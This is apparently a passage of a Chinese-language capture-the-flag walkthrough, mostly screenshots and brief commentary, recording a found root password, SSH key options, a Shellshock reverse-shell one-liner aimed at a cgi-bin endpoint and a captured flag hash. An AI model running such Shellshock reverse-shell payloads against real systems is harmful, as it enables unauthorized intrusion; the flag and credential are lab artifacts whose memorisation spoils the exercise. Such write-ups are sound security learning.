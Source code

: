 不確定有沒有用但我發現這個
root:Ib3!kTEvYw6*P7s

![image](https://hackmd.io/_uploads/BJrs1aYz0.png)

ssh key 要給他 600
然後要給他 -o PubkeyAcceptedKeyTypes=ssh-rsa
![image](https://hackmd.io/_uploads/B1KoLatzR.png)

### www-data

![image](https://hackmd.io/_uploads/Bk6WP6YGR.png)

這時候我們就可以戳戳看24

![image](https://hackmd.io/_uploads/ry8pPaFzA.png)
![image](https://hackmd.io/_uploads/BJZRvptfR.png)

感覺他的shellshock 漏洞也可以用用看
![image](https://hackmd.io/_uploads/SJTCdTYzA.png)

我傳看看reverse shell
wget -U '() { :;}; echo; /usr/bin/bash >& /dev/tcp/10.10.14.4/1234 0>&1' -O- http://172.24.0.2/cgi-bin/stats
他不讓我這樣做

![image](https://hackmd.io/_uploads/Sk88tatzC.png)

原因好像是因為他沒有這個檔案

![image](https://hackmd.io/_uploads/B1SatTYzC.png)

### user.txt

好ㄟ成功了

![image](https://hackmd.io/_uploads/rk0f56FfR.png)

學到新招了

![image](https://hackmd.io/_uploads/S1qR56Yz0.png)

但是用python還是比較穩
用bash他會不讓你用su輸入密碼==

![image](https://hackmd.io/_uploads/SJBC2RFzR.png)

8319c28b9073a2866652e140182f8a29

![image](https://hackmd.io/_uploads/ryhXTCYMR.png)

